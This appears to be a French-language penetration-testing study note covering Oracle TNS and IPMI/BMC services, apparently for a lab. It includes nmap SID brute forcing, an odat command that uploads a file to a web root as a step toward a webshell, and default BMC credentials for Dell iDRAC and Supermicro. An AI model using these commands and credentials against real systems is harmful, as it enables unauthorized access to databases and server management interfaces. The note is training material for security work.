 ```bash
nc -vn <IP> 1521
```

#### Bruteforce SID

```sh
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute -vv
```

### [[Commandes SQL#ORACLE Tns]]

#### Upload d'un fichier sur serveur web (tester webshell)

Possible d'upload un webshell si le serveur fait tourner un serveur web -> connaitre le cheemin racine du serveur web (par defaut :  **/var/www/html/** ou **C:\inetpub\wwwroot** )

```bash
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```


---

# #IPMI (623 udp)

Semblabe au Wake on Lan

## Baseboard Management Controllers (BMCs)

Web based management console

Default creds

| Product         | Username      | Password                                                                  |
| --------------- | ------------- | ------------------------------------------------------------------------- |
| Dell iDRAC      | root          | calvin                                                                    |
| HP iLO          | Administrator | randomized 8-character string consisting of numbers and uppercase letters |
| Supermicro IPMI | ADMIN         | ADMIN                                                                     |

### Footprinting

```bash
sudo nmap -sU --script ipmi-version -p 623 10.129.202.5
```

#### Metasploit

```msfconsole
use auxiliary/scanner/ipmi/ipmi_version 
```

Dump hashes
